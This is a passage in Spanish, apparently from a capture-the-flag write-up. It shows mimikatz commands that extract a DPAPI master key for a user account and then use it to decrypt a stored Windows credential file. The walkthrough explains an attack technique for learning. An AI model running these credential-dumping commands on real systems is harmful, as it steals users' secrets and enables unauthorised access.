 Para hacer uso de mimikatz en esta maquina debo tener preciso lo siguiente: credencial, masterkey.

![alt text](../../image/puppy33.png)

Cuando ejecuto el siguiente comando me da como resultado una llave o clave que utilizaré para descifrar la credencial

```powershell
.\mimikatz.exe "dpapi::masterkey /in:C:\Users\steph.cooper\AppData\Roaming\Microsoft\Protect\S-1-5-21-148798
2659-1829050783-2281216199-1107\556a2412-1275-4ccf-b721-e6a0b4f90407 /rpc" exit
```

![alt text](../../image/puppy34.png)

ahora el comando cambia y lo que busca es obtener la información de la credencial con ayuda de la llave dada anteriormente.

```powershell
.\mimikatz.exe "dpapi::cred /in:C:\Users\steph.cooper\AppData\Roaming\Microsoft\Credentials\C8D69EBE9A43E9DE
BF6B5FBD48B521B9 /masterkey:d9a570722fbaf7149f9f9d691b0e137b7413c1414c452f9c77d6d8a8ed9efe3ecae990e047debe4ab8cc879e8ba99b31cdb7abad28408d8d9cbfdcaf319e9c84"
 exit
```
